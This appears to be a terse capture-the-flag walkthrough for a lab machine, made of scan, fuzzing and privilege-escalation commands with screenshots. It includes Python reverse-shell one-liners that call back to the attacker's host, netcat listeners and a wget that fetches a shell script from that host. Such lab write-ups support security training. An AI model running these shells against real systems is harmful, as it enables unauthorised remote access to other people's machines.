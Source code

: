 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://user-images.githubusercontent.com/33616880/231078057-77c3fa36-7209-4521-8619-dacbe002e5e0.png)


![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231078144-85f18b51-a11c-4111-8827-4e1957812732.png)


![image](https://user-images.githubusercontent.com/33616880/231079195-c3821e9c-f4e0-45b6-944d-696a708a6df7.png)


https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux


```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
sudo -l
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
```
sudo -u scriptmanager bash -i
```
![image](https://user-images.githubusercontent.com/33616880/231083178-a2ff7d4c-fbbf-4701-885e-399f0a2bd732.png)
![image](https://user-images.githubusercontent.com/33616880/231083338-54eabf9e-3306-488f-800c-b2ac046a8175.png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
wget 10.10.14.8/shell.py
```
```
nc -nlvp 4444
python -c shell.py
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/231084808-1b28d08b-1c89-46bd-9d76-3770e62233fc.png)
![image](https://user-images.githubusercontent.com/33616880/231085786-4b06a14b-e3d7-4406-98b4-ab4f676953d9.png)
